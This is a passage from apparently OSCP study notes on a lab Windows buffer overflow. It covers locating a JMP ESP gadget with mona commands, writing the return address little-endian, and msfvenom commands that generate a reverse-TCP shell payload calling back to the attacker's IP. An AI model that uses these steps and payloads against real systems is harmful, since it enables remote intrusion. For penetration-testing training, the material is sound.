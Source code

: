 Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

## Finding a Jump Point

### Mona

With the application either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):\


`!mona jmp -r esp -cpb "\x00"`

{% hint style="info" %}
`make sure that the jump point does not include bad chars!!!`
{% endhint %}

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.



### PWK

1. !mona modules
2. locate nasm\_shell
3. /usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb
4. nasm > JMP ESP
5. !mona find -s "\xff\xe4" -m essfunc.dll
6. add JMP  address to exploit
7. you can use a breakpoint to see it reachs the address

With mona to find a JMP ESP

`!mona jmp -r ESP -m "essfunc.dll"`

## Generate Payload



Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):\


`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c -a x86`\


Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:\
